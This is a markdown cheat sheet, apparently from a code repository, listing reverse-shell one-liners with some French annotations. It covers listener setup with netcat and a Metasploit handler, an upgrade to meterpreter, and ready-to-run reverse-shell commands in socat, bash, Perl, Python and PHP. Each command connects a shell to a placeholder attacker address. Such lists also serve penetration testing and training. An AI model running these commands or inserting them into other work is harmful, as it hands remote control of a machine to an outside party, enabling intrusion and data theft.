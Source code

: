 # Cheatsheet for Reverse-shell one-liner

## Table of contents
1. [Bash](#bash)
2. [Perl](#perl)
3. [Python](#python)
4. [PHP](#php)

## Spawn a handler
### Netcat
```bash
nc -lvp <PORT>
```

### Metasploit
```bash
msf5 > use exploit/multi/handler
msf5 > set PAYLOAD <Payload name>
msf5 > set LHOST <LHOST value>
msf5 > set LPORT <LPORT value>
msf5 > set ExitOnSession false
msf5 > exploit -j -z
```
Shell will be spawn as a background session. You can then upgrade to meterpreter using another handler :
```bash
msf5 > use post/multi/manage/shell_to_meterpreter
msf5 > set SESSION <SESSION_ID>
msf5 > exploit
```

## Reverse-shell one-liner
### Socat
Full interactive shell !!!
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>
```

### Bash <a name="bash"></a>
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
```bash
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
```
```bash
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
```

### Perl <a name="perl"></a>
Version dépendante de « /bin/sh » :
```bash
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Version indépendante de « /bin/sh » pour Linux (avec fork) :
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```bash
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```